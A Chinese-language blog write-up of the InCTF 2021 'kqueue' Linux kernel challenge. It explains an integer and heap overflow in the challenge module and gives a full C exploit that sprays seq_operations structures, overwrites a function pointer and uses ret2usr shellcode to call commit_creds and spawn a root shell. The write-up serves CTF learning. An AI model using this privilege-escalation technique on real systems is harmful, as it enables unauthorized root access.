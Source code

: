 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "InCTF 2021 kqueue 复现(heap overflow)"
author: wsxk
date: 2022-10-25
comments: true
---
```


- [题目分析](#题目分析)
- [利用思路](#利用思路)
- [exp](#exp)
- [references](#references)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

## 题目分析<br>
原件可以在[https://github.com/teambi0s/InCTFi/tree/master/2021/Pwn/Kqueue](https://github.com/teambi0s/InCTFi/tree/master/2021/Pwn/Kqueue)里下载。<br>
这道题是给了源码的，可以通过查看源码来观察该ko文件到底做了些什么。<br>
从源文件中可以看到，kqueue这道题目只提供了一个ioctl接口，根据其中输入的`cmd`，以及传入的request来创造`queue`<br>
这道题目的每个函数看起来check很多，其实——都没有什么卵用，原因可以看代码:
```c
static long err(char* msg){
    printk(KERN_ALERT "%s\n",msg);
    return -1;
}
```
可以看到，用来报错的`err`函数，其并不会结束程序的流程，反而会让程序继续运行，就在内核缓冲区里打了个报错消息。<br>
因而存在了整型溢出问题以及堆溢出的问题。<br>

## 利用思路<br>
首先，这道题目并没有开启`smap/smep`以及`kpti`<br>
但是开启了`kaslr`<br>
> 1. step1:利用整型溢出
> > 因为程序中的判断都是`i < request.max_entries+1`，这种情况下，可以使得max_entries为0xffffffff来造成溢出，而又因为max_entries很大造成访问越界。
> 2. step2:heap overflow + heap spray提高命中率
> > `save_kqueue_entries`函数中可以进行越界操作，其调用了`char *new_queue = validate((char *)kzalloc(queue->queue_size,GFP_KERNEL));`创建了0x20大小的chunk，但是` validate(memcpy(new_queue,queue->data,request.data_size));`确实根据我们传入的data_size来对队列进行拷贝操作。因为0x20大小的chunk在`kamlloc-32`中，而内核中` seq_operations`结构体的大小刚刚好为0x20，换句话说，他们和new_queue分配在同一个page的概率十分大，可以通过heap overflow来覆盖`seq_operations`中的函数指针。
> > > 
> > 可以通过`open("/proc/self/stat", O_RDONLY);`函数多次创建`seq_operations`结构体，然后使用通过`save_queue_entries`的溢出覆盖其中一个`seq_operations`的内容。<br>
> 3. step3: ret2usr 劫持控制流
> >  `seq_operations`的 中的函数指针可以改成用户态的shell地址。但是因为不知道内核的基地址（开启了kaslr），但是也有解决办法，利用栈的调用机制，在内核`call`了`seq_operations`的函数后，会把调用地址压栈。<br>

根据对vmlinux的逆向以及linux源码分析，判断调用发生在
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221027190833.png)<br>
（该位置是seq_read）的函数地址。<br>
随后我们可以根据该地址和`prepare_kernel_cred`和`commit_cred`的偏移得到真实地址。<br>

## exp<br>
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

long dev_fd;
size_t root_rip;
typedef struct{
    u_int32_t max_entries;
    u_int16_t data_size;
    u_int16_t entry_idx;
    u_int16_t queue_idx;
    char* data;
}request_t;

void create_queue(u_int32_t max_entries, u_int16_t data_size)
{
    request_t req = 
    {
        .max_entries    = max_entries,
        .data_size      = data_size,
    };
    ioctl(dev_fd, 0xDEADC0DE, &req);
}

void edit_queue(u_int16_t queue_idx,u_int16_t entry_idx,char *data)
{
    request_t req =
    {
        .queue_idx  = queue_idx,
        .entry_idx  = entry_idx,
        .data       = data,
    };
    ioctl(dev_fd, 0xDAADEEEE, &req);
}

void delete_queue(u_int16_t queue_idx)
{
    request_t req = 
    {
        .queue_idx = queue_idx,
    };
    ioctl(dev_fd, 0xBADDCAFE, &req);
}

void save_queue(u_int16_t queue_idx,u_int32_t max_entries,u_int16_t data_size)
{
    request_t req =
    {
        .queue_idx      = queue_idx,
        .max_entries    = max_entries,
        .data_size      = data_size,
    };
    ioctl(dev_fd, 0xB105BABE, &req);
}

void shellcode(void)
{
    __asm__(
        "mov r12, [rsp + 0x8];"
        "sub r12, 0x201179;"
        "mov r13, r12;"
        "add r12, 0x8c580;"  // prepare_kernel_cred
        "add r13, 0x8c140;"  // commit_creds
        "xor rdi, rdi;"
        "call r12;"
        "mov rdi, rax;"
        "call r13;"
        "swapgs;"
        "mov r14, user_ss;"
        "push r14;"
        "mov r14, user_sp;"
        "push r14;"
        "mov r14, user_rflags;"
        "push r14;"
        "mov r14, user_cs;"
        "push r14;"
        "mov r14, root_rip;"
        "push r14;"
        "iretq;"
    );
}




int main(){
    size_t  data[0x20];
    long  seq_fd[0x200];

    save_status();
    root_rip = get_root_shell;
    dev_fd = open("/dev/kqueue",O_RDONLY);
    if (dev_fd < 0){
        printf("FAILED to open the dev!\n");
        exit(-1);
    }
    for (int i = 0; i < 0x20; i++)
        data[i] = (size_t) shellcode;
    create_queue(0xffffffff,8*0x20);
    edit_queue(0,0,data);
    for (int i = 0; i < 0x200; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    save_queue(0,0,0x40);
    for (int i = 0; i < 0x200; i++){
        printf("seq num%d\n",i);
        read(seq_fd[i], data, 1);
    }
}
```


## references<br>
[https://bbs.pediy.com/thread-269031.htm](https://bbs.pediy.com/thread-269031.htm)<br>
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x05-Kernel-Heap-Heap-Overflow](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x05-Kernel-Heap-Heap-Overflow)<br>
